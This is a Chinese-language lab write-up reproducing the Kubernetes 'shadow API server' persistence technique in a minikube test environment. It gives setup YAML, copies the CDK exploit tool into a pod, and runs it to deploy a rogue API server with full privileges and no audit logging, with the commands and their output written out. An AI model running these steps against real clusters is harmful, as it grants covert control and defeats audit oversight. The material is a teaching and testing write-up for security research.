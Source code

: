 # Kubernetes 部署 Shadow API Server

## 漏洞描述

该技术来源于 ["RSAC 2020: Advanced Persistence Threats: The Future of Kubernetes Attacks"](https://www.youtube.com/watch?v=CH7S5rE3j8w)，思路是在拥有 Master 节点上的 create pod 权限时，可创建一个具有 API Server 功能的 Pod，使得后续命令可以通过新创建的 shadow api server 进行下发，绕过 K8s 的日志审计，更加具有隐蔽性。

参考链接：

- https://www.rsaconference.com/Library/presentation/USA/2020/advanced-persistence-threats-the-future-of-kubernetes-attacks-3
- https://www.youtube.com/watch?v=CH7S5rE3j8w
- https://www.cdxy.me/?p=839
- https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-shadow-apiserver
- https://github.com/cdk-team/CDK/blob/02c2e5d576a51b603e07eb036073eb1c5a0c4c4d/test/k8s_exploit_util/shadow-apiserver.yaml

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_shadow_apiserver.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s-shadow-apiserver` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                   READY   STATUS    RESTARTS   AGE
k8s-shadow-apiserver   1/1     Running   0          40m
```

![](images/Kubernetes%20部署%20Shadow%20API%20Server/image-20250422151649799.png)

## 漏洞复现

下载漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，将其传入 `k8s-shadow-apiserver`pod 中：

```
kubectl cp cdk k8s-shadow-apiserver:/ -n metarget
```

执行以下命令运行工具（该命令会在 `kube-system` 命名空间下创建一个 shadow apiserver，可根据提示进行访问）：

```
kubectl exec -n metarget -it k8s-shadow-apiserver -- chmod +x /cdk
kubectl exec -n metarget -it k8s-shadow-apiserver --  /cdk run k8s-shadow-apiserver default
-----
...
2025/04/22 07:18:04 shadow api-server deploy success!
	shadow api-server pod name:kube-apiserver-minikube-shadow-yg7vf3, namespace:kube-system, node name:minikube
	listening port: https://minikube:9444
	run: kubectl --server=https://minikube:9444 --token=eyJhb...UnXw --kubeconfig=/dev/null --insecure-skip-tls-verify=true get pods -A
```

![](images/Kubernetes%20部署%20Shadow%20API%20Server/image-20250422151905189.png)

验证部署结果：

```
kubectl get pods -n kube-system | grep shadow
-----
kube-apiserver-minikube-shadow-yg7vf3   1/1     Running   0              90s
```

![](images/Kubernetes%20部署%20Shadow%20API%20Server/image-20250422151956718.png)

通过获取的 K8s Token 访问 shadow apiserver，该 apiserver 具有和集群中现存的 apiserver 一致的功能，同时开启了全部 K8s 管理权限，且不保存审计日志：

```
kubectl --server=https://minikube:9444 --token=<YOUR_TOKEN_HERE> --kubeconfig=/dev/null --insecure-skip-tls-verify=true get pods -A
```

![](images/Kubernetes%20部署%20Shadow%20API%20Server/image-20250422155545177.png)

## 环境复原

```
kubectl delete pod kube-apiserver-minikube-shadow-6aktct -n kube-system
kubectl delete -f k8s_shadow_apiserver.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_shadow_apiserver.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_shadow_apiserver.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-shadow-apiserver
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-shadow-apiserver
rules:
- apiGroups:
  - ""
  resources:
  - pods
  verbs:
  - create
  - get
  - list
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-shadow-apiserver
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-shadow-apiserver
subjects:
- kind: ServiceAccount
  name: k8s-shadow-apiserver
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-shadow-apiserver
  namespace: metarget
spec:
  serviceAccountName: k8s-shadow-apiserver
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```
